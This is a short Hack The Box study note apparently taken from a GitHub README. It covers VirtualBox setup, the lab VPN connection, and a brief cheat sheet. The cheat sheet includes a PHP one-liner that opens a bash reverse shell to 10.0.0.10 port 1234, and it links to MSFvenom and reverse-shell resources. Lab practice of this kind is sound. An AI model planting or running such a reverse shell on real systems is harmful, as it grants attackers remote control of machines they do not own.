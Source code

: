 # HTB-Note
note about Hack The Box

## Virtual Box Setting

### Run GuestAddictionsCD

```Shell
cd /media/
sudo mount /dev/cdrom /media/cdrom1
cd /cdrom1
sudo ./VBoxLinuxAdditions.run 
reboot
```

### Open VPN

- Download ovpn file **for VIP account**

```Shell
sudo openvpn --config ./Desktop/yufujioka.ovpn
```

## CheatShhet

### MSFvenom

- [MSFvenom ~ ペイロード早見表 ~](https://qiita.com/mr-wacker/items/0ec926951ffa5a4d197c)

### Reverse Shell

- [A tiny PHP/bash reverse shell.](https://gist.github.com/rshipp/eee36684db07d234c1cc#gistcomment-3100663)
```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.0.0.10/1234 0>&1'");
```

### Privilege escalation

#### find SUID 

```shell
/var/htb/bin/emergency
```
